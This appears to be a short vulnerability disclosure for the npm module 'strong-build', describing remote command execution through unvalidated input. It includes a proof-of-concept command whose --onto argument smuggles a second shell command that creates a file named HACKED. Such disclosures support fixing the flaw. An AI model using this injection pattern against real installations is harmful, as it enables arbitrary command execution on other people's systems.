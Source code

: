 # :bug: Description

The `strong-build` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Check there aren't files called `HACKED` 
2. Execute the following commands in another terminal:

```bash
npm i strong-build -g # Install affected module
sl-build --onto '";touch HACKED; #' #  Run the PoC
```
3. Recheck the files: now `HACKED` has been created
